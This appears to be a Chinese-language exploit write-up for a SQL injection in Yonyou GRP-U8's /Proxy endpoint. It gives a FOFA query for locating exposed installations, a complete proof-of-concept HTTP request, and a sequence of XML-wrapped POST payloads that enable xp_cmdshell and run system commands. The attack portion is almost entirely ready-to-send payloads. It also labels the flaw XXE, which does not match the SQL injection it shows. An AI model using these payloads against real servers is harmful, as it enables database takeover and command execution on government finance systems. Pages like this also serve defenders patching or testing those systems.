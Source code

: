 # 用友 GRP-U8 Proxy SQL注入 CNNVD-201610-923

## 漏洞描述

用友GRP-u8存在XXE漏洞，该漏洞源于应用程序解析XML输入时没有进制外部实体的加载，导致可加载外部SQL语句，以及命令执行

## 影响版本

<a-checkbox checked>用友GRP-U8行政事业内控管理软件（新政府会计制度专版）</a-checkbox></br>

## FOFA

<a-checkbox checked>title="用友GRP-U8行政事业内控管理软件"</a-checkbox></br>

## 漏洞复现

漏洞利用POC请求包

```xml
POST /Proxy HTTP/1.1
Accept: Accept: */*
Content-Type: application/x-www-form-urlencoded User-Agent: Mozilla/4.0 (compatible; MSIE 6.0;) Host: host
Content-Length: 357
Connection: Keep-Alive
Cache-Control: no-cache


cVer=9.8.0&dp=<?xml version="1.0" encoding="GB2312"?><R9PACKET version="1"><DATAFORMAT>XML</DATAFORMAT><R9FUNCTION> <NAME>AS_DataRequest</NAME><PARAMS><PARAM> <NAME>ProviderName</NAME><DATA format="text">DataSetProviderData</DATA></PARAM><PARAM> <NAME>Data</NAME><DATA format="text">select @@version</DATA></PARAM></PARAMS> </R9FUNCTION></R9PACKET>
```

请求后按F12查看源代码可以得到SQL语句查询结果



![img](../../../.vuepress/public/img/yongyou-1.png)



![img](../../../.vuepress/public/img/yongyou-2.png)



也可以调用 **xp_cmdshell** 来执行系统命令(大部分此系统为**windows**)

![img](../../../.vuepress/public/img/yongyou-3.png)

<a-checkbox checked>注意：大部分默认是不开启 xp_cmdshell 模块的</a-checkbox></br>



![img](../../../.vuepress/public/img/yongyou-4.png)



可以使用如下方法打开**xp_cmdshell方法**

将如下POST数据按顺序发送(**注意 master 改为当前数据库名**)

```xml
cVer=9.8.0&dp=<?xml version="1.0" encoding="GB2312"?><R9PACKET version="1"><DATAFORMAT>XML</DATAFORMAT><R9FUNCTION><NAME>AS_DataRequest</NAME><PARAMS><PARAM><NAME>ProviderName</NAME><DATA format="text">DataSetProviderData</DATA></PARAM><PARAM><NAME>Data</NAME><DATA format="text">use master</DATA></PARAM></PARAMS></R9FUNCTION></R9PACKET>
```

```xml
cVer=9.8.0&dp=<?xml version="1.0" encoding="GB2312"?><R9PACKET version="1"><DATAFORMAT>XML</DATAFORMAT><R9FUNCTION><NAME>AS_DataRequest</NAME><PARAMS><PARAM><NAME>ProviderName</NAME><DATA format="text">DataSetProviderData</DATA></PARAM><PARAM><NAME>Data</NAME><DATA format="text">exec sp_configure 'show advanced options',1</DATA></PARAM></PARAMS></R9FUNCTION></R9PACKET>
```

```xml
cVer=9.8.0&dp=<?xml version="1.0" encoding="GB2312"?><R9PACKET version="1"><DATAFORMAT>XML</DATAFORMAT><R9FUNCTION><NAME>AS_DataRequest</NAME><PARAMS><PARAM><NAME>ProviderName</NAME><DATA format="text">DataSetProviderData</DATA></PARAM><PARAM><NAME>Data</NAME><DATA format="text">reconfigure</DATA></PARAM></PARAMS></R9FUNCTION></R9PACKET>
```

```xml
cVer=9.8.0&dp=<?xml version="1.0" encoding="GB2312"?><R9PACKET version="1"><DATAFORMAT>XML</DATAFORMAT><R9FUNCTION><NAME>AS_DataRequest</NAME><PARAMS><PARAM><NAME>ProviderName</NAME><DATA format="text">DataSetProviderData</DATA></PARAM><PARAM><NAME>Data</NAME><DATA format="text">exec sp_configure 'xp_cmdshell',1</DATA></PARAM></PARAMS></R9FUNCTION></R9PACKET>
```

```xml
cVer=9.8.0&dp=<?xml version="1.0" encoding="GB2312"?><R9PACKET version="1"><DATAFORMAT>XML</DATAFORMAT><R9FUNCTION><NAME>AS_DataRequest</NAME><PARAMS><PARAM><NAME>ProviderName</NAME><DATA format="text">DataSetProviderData</DATA></PARAM><PARAM><NAME>Data</NAME><DATA format="text">reconfigure</DATA></PARAM></PARAMS></R9FUNCTION></R9PACKET>
```

再发送以下数据可成功使用(也可能失败)

```xml
cVer=9.8.0&dp=<?xml version="1.0" encoding="GB2312"?><R9PACKET version="1"><DATAFORMAT>XML</DATAFORMAT><R9FUNCTION><NAME>AS_DataRequest</NAME><PARAMS><PARAM><NAME>ProviderName</NAME><DATA format="text">DataSetProviderData</DATA></PARAM><PARAM><NAME>Data</NAME><DATA format="text">exec xp_cmdshell "whoami"</DATA></PARAM></PARAMS></R9FUNCTION></R9PACKET>
```

<a-checkbox checked>执行过程中报错 java.sql.SQLException【错误代码: 0; 相关信息:xxxxxx】不用理会</a-checkbox></br>

发送请求后再使用此模块则会成功请求执行系统命令